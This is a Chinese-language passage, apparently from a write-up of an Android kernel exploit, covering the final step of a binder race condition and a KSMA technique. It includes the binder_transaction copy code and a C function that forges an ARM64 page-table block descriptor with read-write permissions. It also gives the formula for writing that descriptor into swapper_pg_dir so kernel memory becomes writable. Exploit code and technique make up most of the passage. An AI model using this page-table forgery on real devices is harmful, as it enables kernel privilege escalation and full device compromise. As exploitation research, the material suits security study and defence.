 注意async_transaction为0，所以名字要大于4,之后子线程继续binder_transaction 此时binder_buffer->data已经被我们覆盖成 0xffffffc001e50834 data_size为20

```c
//binder_transaction
if (copy_from_user(t->buffer->data, (const void __user *)(uintptr_t)
			   tr->data.ptr.buffer, tr->data_size)) {
		binder_user_error("%d:%d got transaction with invalid data ptr\n",
				proc->pid, thread->pid);
		return_error = BR_FAILED_REPLY;
		return_error_param = -EFAULT;
		return_error_line = __LINE__;
		goto err_copy_data_failed;
	}
	if (copy_from_user(offp, (const void 
```

所以在0xffffffc001e50834的位置上写上1，1，0，0x80000e71，于是raceTimes正式结束

现在说一下ksma部分，就是0xffffffc001e50834的位置上写上1，1，0，0x80000e71是什么意思

0x80000e71是这么来的 这是伪造 的d_block 描述符

```c
unsigned long get_fack_block(unsigned long phys_addr)//0x800000 内核镜像加载的起始物理地址 memstart_addr
{
	unsigned long fake_d_block = 0l	;
	// d_block 中的内容，主要是修改 AP[2:1], 修改为读写属性
    	// bit[1:0]
    	fake_d_block = fake_d_block | (0x0000000000000001);     //                  Y
    	// bit[11:2] lower block attributes
    	fake_d_block = fake_d_block | (0x0000000000000800);     // nG, bit[11]      Y
    	fake_d_block = fake_d_block | (0x0000000000000400);     // AF, bit[10]      Y
    	fake_d_block = fake_d_block | (0x0000000000000200);     // SH, bits[9:8]
    	fake_d_block = fake_d_block | (0x0000000000000040);     // AP[2:1], bits[7:6]
    	fake_d_block = fake_d_block | (0x0000000000000020);     // NS, bit[5]       Y
   	fake_d_block = fake_d_block | (0x0000000000000010);     // AttrIndx[2:0], bits[4:2]
    	// bit[29:12] RES0
    	// bit[47:30] output address
    	fake_d_block = fake_d_block | (phys_addr & 0x0000ffffc0000000);
    	// bit[51:48] RES0
    	// bit[63:52] upper block attributes, [63:55] ignored
    	//fake_d_block = fake_d_block | (0x0010000000000000);     // Contiguous, bit[52]
    	//fake_d_block = fake_d_block | (0x0020000000000000);     // PXN, bit[53]
    	//fake_d_block = fake_d_block | (0x0040000000000000);     // XN, bit[54]
	return fake_d_block;
}
```

伪造 d_block 描述符 将它改成可读可写，接下来只要在某虚拟地址的一节页表描述符的地方写上我们伪造的就行了，即可将该页改成可读可写，具体这么计算 swapper_pg_dir为一级页表的地址 0xffffffc001e50000

```c
L1_index = (vaddr & 0x0000007fc0000000) >> 30;
fake_d_block_addr = swapper_pg_dir + L1_index * 0x8;
```
